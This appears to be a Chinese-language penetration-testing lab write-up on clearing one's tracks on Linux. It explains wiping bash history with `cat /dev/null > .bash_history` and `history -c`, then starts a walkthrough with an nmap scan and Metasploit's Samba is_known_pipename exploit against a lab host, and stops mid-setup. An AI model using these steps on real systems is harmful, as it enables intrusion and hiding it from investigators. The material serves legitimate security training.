 总结起来，"concatenate" 在这个上下文中表示将一个空内容连接到 `.bash_history` 文件中，达到清空命令历史记录的效果。

在上述回答中，"discard" 是一个动词，它的意思是丢弃或放弃某物，意味着不再使用或保留。在计算机术语中，"discard" 通常用于指将数据或信息删除、丢弃或不再处理。

在上面的命令 `cat /dev/null > .bash_history` 中，我们使用 `/dev/null` 作为输入文件，因为 `/dev/null` 是一个特殊设备文件，写入它的数据会被直接丢弃，不会在系统中保留或处理。所以，可以说这个命令是将数据（空内容）写入 `/dev/null` 这个设备文件，从而实现了将数据丢弃的效果。

因此，在这个命令中，"discard" 指的是将 `.bash_history` 文件中的命令历史记录丢弃或清除，使其不再保留。通过将空内容写入 `.bash_history` 文件，我们实现了将之前的命令历史记录丢弃，从而清空了该文件。

```
history
history -c
history
```

```
cat .bash_history
```

That is how to clear the bash history.

# Clearing Your Tracks On Linux（清除 Linux 上的痕迹）
## Overview（概述）
Goal 目标

This lab covers the process of clearing your tracks on a Linux system. 本实验涵盖了在 Linux 系统上清除痕迹的过程。

## 复现视频内容
Kali Linux : 192.123.118.2

Target IP Adress : 192.123.118.3

```
root@attackdefense:~# nmap -sV -p 445 192.123.118.3
Starting Nmap 7.70 ( https://nmap.org ) at 2023-07-23 02:49 UTC
Nmap scan report for target-1 (192.123.118.3)
Host is up (0.000060s latency).

PORT    STATE SERVICE     VERSION
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
MAC Address: 02:42:C0:7B:76:03 (Unknown)
Service Info: Host: VICTIM-1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.48 seconds
```

```
root@attackdefense:~# msfconsole -q
msf5 > setg RHOSTS 192.123.118.3
RHOSTS => 192.123.118.3
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > show options

Module options (exploit/linux/samba/is_known_pipename):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   RHOSTS          192.123.118.3    yes       The target address range or CIDR identifier
   RPORT           445              yes       The SMB service port (TCP)
   SMB_FOLDER                       no        The directory to use within the writeable SMB share
   SMB_SHARE_NAME                   no        The name of the SMB share containing a writeable directory


Exploit target:
```